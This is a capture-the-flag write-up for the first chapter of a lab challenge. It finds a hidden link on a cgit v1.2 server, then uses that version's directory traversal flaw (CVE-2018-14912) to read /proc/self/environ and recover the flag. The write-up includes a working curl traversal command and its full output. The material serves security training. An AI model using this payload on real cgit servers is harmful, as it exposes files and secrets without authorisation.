


# Chapter 1: Travel (3 points)

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid
dreaming and even in your sleep, you encounter tricky problems? Help a
colleague solve tasks in the complex and interconnected world of LORE, where it
is challenging to distinguish reality from fantasy.

* The entry point to LORE is at http://intro.lore.tcc.

See you in the next incident!

## Hints

* Be sure you enter flag for correct chapter.

## Solution

When we navigate to http://intro.lore.tcc/ we can see a carousel with four
sections representing individual chapters, accompanied by short poems
containing subtle hints.

Let's focus on the first one:

```text
1 Travel

In the gentle sway,
Seeking calm within the storm,
A path unfolds clear.

Footsteps brave the tide,
Guided by a steadfast light,
Through trials we stride
```

When we follow a link to the first one, we land on CGIT server `cgit.lore.tcc`.



It seems there's no link further, but the source code contains a commented-out
section.

```html
$ curl http://cgit.lore.tcc/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CGIT Source Control System</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f8f9fa;
            margin: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background: #ffffff;
            padding: 2em;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #343a40;
        }
        p {
            color: #6c757d;
        }
        a {
            text-decoration: none;
            color: #007bff;
        }
        a:hover {
            text-decoration: underline;
        }
        .button {
            display: inline-block;
            margin-top: 20px;
            padding: 10px 20px;
            border: 1px solid #007bff;
            color: white;
            background-color: #007bff;
            border-radius: 5px;
            text-decoration: none;
        }
        .button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>CGIT Source Control System</h1>
        <p>This area is restricted to authorized personnel only.</p>
        <!--
        <p>Manage and browse your source code repositories with CGIT.</p>
        <a href="/cgit.cgi" class="button">Go to Repositories</a>
        -->
    </div>
</body>
</html>
```

When we follow the link to `http://cgit.lore.tcc/cgit.cgi` we can see two git
repositories (`foo` and `sam-operator`) and a footer informing us that the
server runs `cgit v1.2`.



Searching the Internet shows, that this version contains a directory traversal
vulnerability ([CVE-2018-14912]) on `cgit.cgi/<repository>/objects` endpoint.
There is even a readily available [cgit_traversal metasploit module]. However,
we can also use `curl` manually to retrieve various files on the server, e.g.
list the content of `proc/self/environ`, i.e. envirnoment variables of the
current process, where the FLAG can be found.

> _Note: The path depth of 10 can be derived by experimentation or from
> metasploit module, where it is set as default value._

```console
$ curl 'http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../../../../../../proc/self/environ' -o -
FLAG=FLAG{FiqE-rPQL-pUV4-daQt}HTTP_HOST=cgit.lore.tccHTTP_X_REQUEST_ID=d09ec752a9408a9923526a1429f86aa3HTTP_X_REAL_IP=10.200.0.40HTTP_X_FORWARDED_FOR=10.200.0.40HTTP_X_FORWARDED_HOST=cgit.lore.tccHTTP_X_FORWARDED_PORT=80HTTP_X_FORWARDED_PROTO=httpHTTP_X_FORWARDED_SCHEME=httpHTTP_X_SCHEME=httpHTTP_USER_AGENT=curl/8.7.1HTTP_ACCEPT=*/*PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binSERVER_SIGNATURE=<address>Apache/2.4.61 (Debian) Server at cgit.lore.tcc Port 80</address>
SERVER_SOFTWARE=Apache/2.4.61 (Debian)SERVER_NAME=cgit.lore.tccSERVER_ADDR=192.168.73.88SERVER_PORT=80REMOTE_ADDR=192.168.73.83DOCUMENT_ROOT=/var/www/htmlREQUEST_SCHEME=httpCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/var/www/htmlSERVER_ADMIN=[no address given]SCRIPT_FILENAME=/var/www/html/cgit.cgiREMOTE_PORT=48208GATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=path=../../../../../../../../../../proc/self/environREQUEST_URI=/cgit.cgi/foo/objects/?path=../../../../../../../../../../proc/self/environSCRIPT_NAME=/cgit.cgiPATH_INFO=/foo/objects/PATH_TRANSLATED=/var/www/html/foo/objects/
```

We can submit the flag now, however, there are also other interesting things
on this server, that will come handy in [Chapter 3: Bounded] and
[Chapter 4: Uncle].

[CVE-2018-14912]: https://nvd.nist.gov/vuln/detail/CVE-2018-14912
[cgit_traversal metasploit module]: scanner/http/cgit_traversal.rb
[Chapter 3: Bounded]: ../lore-3-bounded
[Chapter 4: Uncle]: ../lore-4-uncle
